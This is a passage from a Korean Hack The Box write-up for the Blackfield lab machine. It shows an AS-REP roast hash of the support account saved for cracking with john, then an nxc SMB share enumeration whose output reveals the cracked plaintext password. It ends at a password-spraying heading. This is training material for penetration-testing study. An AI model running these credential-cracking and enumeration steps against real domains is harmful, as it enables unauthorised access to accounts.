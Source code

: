 ## Hash Cracking (john)

- 이전 과정에서 확인된 해시(krb5asrep) 값을 파일에 저장한다.  

```zsh
└─# echo '$krb5asrep$23$support@BLACKFIELD.LOCAL:7892e8046c20fcf327dba8b81db9f650$0055317af8ba4528870eda6e2d32059c970b20e5f4d57992f52e37a1c3a9656fbcde43172a9a60c15ed25a9a0beb9e8f0fca777613febca7bfa0be5406693abaf2caffe1c6eed4d2895b43319d612d331fce8fafa52318863f92e9d6aa3f690aa85e85b21d2f7517d015bc8319925b1cf327b45f486ad015e6d0b86e74ede684f2656a67dc47ad2b0828b1b3e46e79b548ec7e26e25c59f4abca51c86784a4e43cb4a9121be524acd6c88f2215e1171b4995c1a1ab2b1ac482c24c6ee0adc6c26ce2a9bc8e3e605c0cdc1c08118cbe0a590c2a8ac983f9b75c37f944c71e300d99687d6dced7cfabc628649a0e17122da95b7fcf' > support.hash
```

- `john` 도구로 해시 크래킹을 시도하였으며, `support` 계정에 대한 평문 패스워드가 반환됨을 확인했다.  

<img src='assets/post/2025/Playground/Hack The Box/Blackfield/2.png' width=1200 alt=''>


## Checking SMB Permission of support account

- [1] 탈취한 계정의 SMB 쉐어 접근 권한을 확인한다.  
- [2] 기본 쉐어(IPC$, NETLOGON, SYSVOL) 읽기 권한 부여된 것 외에 특이사항은 없으며 유용한 정보도 발견되지 않았다.  

```zsh
└─# nxc smb 10.129.229.17 -u support -p $SUPPORT_PASS --shares
SMB         10.129.229.17  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17  445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.129.229.17  445    DC01             [*] Enumerated shares
SMB         10.129.229.17  445    DC01             Share           Permissions     Remark
SMB         10.129.229.17  445    DC01             -----           -----------     ------
SMB         10.129.229.17  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17  445    DC01             C$                              Default share
SMB         10.129.229.17  445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.229.17  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17  445    DC01             profiles$       READ            
SMB         10.129.229.17  445    DC01             SYSVOL          READ            Logon server share
```

## Password Spraying Attack
